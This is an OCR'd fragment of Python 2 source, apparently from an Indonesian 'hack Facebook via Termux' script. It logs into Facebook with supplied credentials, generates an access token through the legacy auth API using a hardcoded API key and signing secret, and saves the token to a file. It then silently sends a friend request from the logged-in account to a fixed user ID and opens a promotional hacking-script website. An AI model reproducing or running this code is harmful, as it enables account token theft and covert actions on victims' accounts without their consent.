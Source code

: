 
        br._factory.is_html = True
        br.select_form(nr=0)
        br.form['email'] = id
        br.form['pass'] = pwd
        br.submit()
        url = br.geturl()
        if 'save-device' in url:
            try:
                sig = 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail=' + id + 'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword=' + pwd + 'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
                data = {'api_key': '882a8490361da98702bf97a021ddc14d', 'credentials_type': 'password', 'email': id, 'format': 'JSON', 'generate_machine_id': '1', 'generate_session_cookies': '1', 'locale': 'en_US', 'method': 'auth.login', 'password': pwd, 'return_ssl_resources': '0', 'v': '1.0'}
                x = hashlib.new('md5')
                x.update(sig)
                a = x.hexdigest()
                data.update({'sig': a})
                url = 'https://api.facebook.com/restserver.php'
                r = requests.get(url, params=data)
                z = json.loads(r.text)
                zedd = open('login.txt', 'w')
                zedd.write(z['access_token'])
                zedd.close()
                print '\n\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mLogin berhasil'
                requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token=' + z['access_token'])
                os.system('xdg-open https://www.artikelcara10.com/script-hack-fb-termux/')
                time.sleep(2)
                menu()
            except requests.exceptions.ConnectionError:
                print '\n\x1b[1;91m[!] Tidak ada koneksi'
                keluar()

        if 'checkpoint' in url:
            print '\n\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint'
            os.system('rm -rf login.txt')
            time.sleep(1)
            keluar()
        else:
            print '\n\x1b[1;91m[!] Login Gagal'
            os.system('rm -rf login.txt')
            time.sleep(1)
            login()


def menu():
    os.system('reset')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        os.system('reset')
        print '\x1b[1;91m[!] Token tidak ditemukan'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()
    else:
        try:
            otw = requests.get('https://graph.facebook.com/me?access_token=' + toket)
            a = json.loads(otw.text)
            nama = a['name']
            id = a['id']
        except KeyError:
            os.system('reset')